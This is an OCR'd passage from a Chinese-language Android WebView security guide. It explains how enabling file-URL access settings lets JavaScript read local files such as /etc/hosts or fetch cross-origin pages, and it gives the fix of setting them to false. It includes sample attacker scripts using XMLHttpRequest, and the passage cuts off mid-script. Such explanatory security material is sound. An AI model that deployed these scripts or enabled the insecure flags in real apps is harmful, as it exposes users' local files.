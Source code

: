 
2). setAllowFileAccessFromFileURLs

	// 设置是否允许通过 file url 加载的 Js代码读取其他的本地文件
	webView.getSettings().setAllowFileAccessFromFileURLs(true);
	// 在Android 4.1前默认允许
	// 在Android 4.1后默认禁止

当AllowFileAccessFromFileURLs（）设置为 true 时，攻击者的JS代码为：

	<script>
	function loadXMLDoc(){
	    var arm = "file:///etc/hosts";
	    var xmlhttp;
	    if (window.XMLHttpRequest)
	    {
	        xmlhttp=new XMLHttpRequest();
	    }
	    xmlhttp.onreadystatechange=function()
	    {
	        //alert("status is"+xmlhttp.status);
	        if (xmlhttp.readyState==4)
	        {
	              console.log(xmlhttp.responseText);
	        }
	    }
	    xmlhttp.open("GET",arm);
	    xmlhttp.send(null);
	}
	loadXMLDoc();
	</script>

	// 通过该代码可成功读取 /etc/hosts 的内容数据

解决方案：

	设置setAllowFileAccessFromFileURLs(false);

> 当设置成为 false 时，上述JS的攻击代码执行会导致错误，表示浏览器禁止从 file url 中的 javascript 读取其它本地文件


3). setAllowUniversalAccessFromFileURLs()

	// 设置是否允许通过 file url 加载的 Javascript 可以访问其他的源(包括http、https等源)
	webView.getSettings().setAllowUniversalAccessFromFileURLs(true);
	
	// 在Android 4.1前默认允许（setAllowFileAccessFromFileURLs()不起作用）
	// 在Android 4.1后默认禁止

当AllowFileAccessFromFileURLs()被设置成true时，攻击者的JS代码是：

	// 通过该代码可成功读取 http://www.so.com 的内容
	<script>
	function loadXMLDoc(){
	    var arm = "http://www.so.com";
	    var xmlhttp;
	    if (window.XMLHttpRequest)
	    {
	        xmlhttp=new XMLHttpRequest();
	    }
	    xmlhttp.onreadystatechange=function()
	    {
	        //alert("status is"+xmlhttp.status);
	        if (xmlhttp.readyState==4)
	        {
	             console.log(xmlhttp.responseText);
	        }
	    }
	    xmlhttp.open("GET",arm);
	    xmlhttp.send(null);